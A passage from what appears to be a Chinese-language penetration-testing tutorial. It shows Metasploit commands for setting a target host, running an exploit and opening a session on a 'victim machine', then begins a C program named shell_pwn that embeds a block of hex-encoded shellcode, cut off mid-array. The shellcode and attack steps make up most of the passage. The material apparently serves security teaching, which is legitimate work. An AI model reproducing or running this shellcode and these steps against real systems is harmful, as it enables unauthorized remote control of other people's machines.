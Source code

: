 现在，设置 rhost：

```
$ set rhost 192.168.129.128
```

然后，让我们开始：

```
$ run
```

前面命令的输出可以在下面的截图中看到：

![](img/00272.jpeg)

现在，会话开始于`session 1`：

```
$ session 1
```

前面命令的输出可以在下面的截图中看到：

![](img/00273.jpeg)

我们现在在受害者机器内部。退出此会话，让我们回到我们的代码。因此，我们的最终代码应该是这样的：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int shell_pwn()
{
unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
```